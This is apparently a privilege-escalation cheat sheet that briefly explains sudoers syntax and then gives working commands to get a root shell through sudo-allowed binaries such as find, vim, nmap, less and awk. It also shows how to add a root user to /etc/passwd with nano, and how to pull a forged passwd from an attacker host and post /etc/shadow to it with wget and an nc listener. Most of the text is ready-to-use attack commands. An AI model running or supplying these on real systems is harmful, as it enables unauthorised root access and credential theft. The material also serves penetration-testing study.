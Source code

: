 ---- Credits to Touhid M.Shaikh ----


Sudoers File

  

SUDOers


    sudo -l
  
Sudoer File Syntax.

    root ALL=(ALL) ALL

Explain 1: The root user can execute from ALL terminals, acting as ALL (any) users, and run ALL (any) command.

The first part is the user, the second is the terminal from where the user can use the sudocommand, the third part is which users he may act as, and the last one is which commands he may run when using.sudo

    user1 ALL= /sbin/poweroff
  
Explain 2: The above command, makes the user user1 can from any terminal, run the command power off using user1’s user password.

    user1 ALL = (root) NOPASSWD: /usr/bin/find
  
Explain 3:  The above command, make the user touhid can from any terminal, run the command find as root user without password.


Exploiting SUDO Users.
To Exploiting sudo user u need to find which command u have to allow.

    sudo -l

The above command shows which command have allowed to the current user.


Here sudo -l, Shows the user has all this binary allowed to do as on root user without password.

Let’s take a look at all binary one by one (which is mention in index only) and Escalate Privilege to root user.

Using Find Command
sudo find /etc/passwd -exec /bin/sh \;
or

sudo find /bin -name nano -exec /bin/sh \;
Using Vim Command
sudo vim -c '!sh'
Using Nmap Command
Old way.

  sudo nmap --interactive
  nmap> !sh
  sh-4.1#
  Note : nmap –interactive option not available in latest nmap.

Latest Way without –interactive

echo "os.execute('/bin/sh')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse
Using Man Command
sudo man man
after that press !sh and hit enter

Using Less/More Command
sudo less /etc/hosts
sudo more /etc/hosts
after that press !sh and hit enter

Using awk Command

 sudo awk 'BEGIN {system("/bin/sh")}'
 
Using nano Command
nano is text editor using this editor u can modify passwd file and add a user in passwd file as root privilege after that u need to switch user. Add this line in /etc/passwd to order to add the user as root privilege.

    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

sudo nano  /etc/passwd
now switch user password with password : test

    su user1
    

Using wget Command
this very cool way which requires a Web Server to download a file. This way i never saw on anywhere. lets explain this.

On Attaker Side.

First Copy Target’s /etc/passwd file to attacker machine.
modify file and add a user in passwd file which is saved in the previous step to the attacker machine.
append this line only => 

    user1:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:0:0:root:/root:/bin/bash

host that passwd file to using any web server.
On Victim Side.

sudo wget http://192.168.56.1:8080/passwd -O /etc/passwd
now switch user password is : test

    su user1
Note: if u want to dump file from a server like a root’s ssh key, Shadow file etc.

sudo wget --post-file=/etc/shadow 192.168.56.1:8080
Setup Listener on attacker : nc –lvp 8080

Using apache Command
sadly u cant get Shell and Cant edit system files.

but using this u can view system files.

sudo apache2 -f /etc/shadow
Output is like this :

Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
Sadly no Shell. But you manage to extract root hash now Crack hash in your machine. For Shadow Cracking click here for more.

